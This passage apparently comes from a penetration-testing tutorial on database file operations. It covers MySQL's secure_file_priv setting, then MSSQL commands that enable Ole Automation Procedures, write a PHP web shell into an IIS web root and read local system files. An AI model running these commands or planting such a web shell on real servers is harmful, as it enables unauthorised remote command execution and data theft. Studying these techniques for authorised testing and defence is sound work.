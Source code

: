 `secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

#### MySQL - Secure File Privileges
```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```

To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

#### MSSQL - Enable Ole Automation Procedures
```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

#### MSSQL - Create a File
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

### Read Local Files

By default, `MSSQL` allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

#### Read Local Files in MSSQL
```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
